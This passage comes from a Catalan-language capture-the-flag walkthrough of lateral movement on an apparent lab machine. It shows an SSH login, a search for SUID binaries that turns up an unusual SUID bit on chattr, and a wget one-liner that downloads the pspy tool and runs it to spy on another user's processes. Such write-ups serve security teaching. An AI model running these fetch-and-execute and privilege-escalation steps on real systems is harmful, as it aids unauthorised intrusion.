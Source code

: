 ```bash
ssh J4ckie0x17@192.168.1.187
```

![ssh J4ckie0x17](../../../assets/images/zerotrace/ssh.png)

## Moviment lateral de J4ckie0x17 a shelldredd

Vam trobar diverses coses interessants amb l'usuari `J4ckie0x17`.

1. El binari `/usr/bin/chattr` té el bit SUID activat quan no és habitual, aquest binari serveix per modificar els atributs especials en sistemes de fitxer ext2/ext3/ext4.

```bash
find / -type f -perm -4000 2>/dev/null
```

![find suid](../../../assets/images/zerotrace/suid.png)

2. Utilitzem `pspy` per monitoritzar els processos actius i trobem un que executa l'usuari `shelldredd` amb el `UID` 1003 molt sospitós.

```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64s && chmod +x pspy64s && ./pspy64s
```
